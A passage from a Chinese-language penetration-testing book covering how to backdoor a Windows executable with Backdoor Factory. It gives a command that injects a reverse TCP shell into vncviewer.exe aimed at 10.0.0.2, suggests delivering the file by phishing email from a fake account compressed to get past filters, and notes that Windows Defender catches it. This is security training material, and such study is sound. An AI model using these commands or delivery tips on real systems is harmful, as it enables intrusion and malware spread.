```
backdoor-factory –cave-jumping -f /usr/share/windows-binaries/vncviewer.exe -H 10.0.0.2 -P 43434 -s reverse_shell_tcp_inline

```

后门工厂接着进行，并且提供了将外壳代码注入二进制文件中所有空隙或洞穴的选项：

![Using Backdoor-Factory to Evade Antivirus](img/image00963.jpeg)

我们将选择洞穴 1：

![Using Backdoor-Factory to Evade Antivirus](img/image00964.jpeg)

`backdoored`目录在根主目录`~/backdoored/`中；因此，很容易找到。我们可以使用 Social Engineering Toolkit 将这个修改过的文件推送到群发邮件中，但您可以通过电子邮件将它从一个伪造的帐户发送到 Windows 10 邮箱，看看它是否能够清除反病毒障碍。该可执行文件必须压缩以通过邮件服务器上的过滤器，一旦在 Windows 10 计算机上解压缩，它就会作为恶意软件文件被清除。

Windows 10 defaultAnti-virus 从社交工程工具包中找到此文件，正如它找到另一个文件一样。未打补丁的旧版本 Windows 显然存在风险。

# 总结

在本章中，您已经看到了在 Windows 计算机上获得控制和设置后门的五种不同方法，从 Ncat 脚本到 metasploit Meterpler 攻击，再到添加 dropbox，再到使用社交工程工具包发送钓鱼电子邮件，再到使用后门工厂使用 shell 脚本后门创建可执行文件。

在下一章中，我们将讨论您收集的恶意软件的反向工程，以便您了解它在野外或网络中可能会做什么，并对您的设备进行压力测试。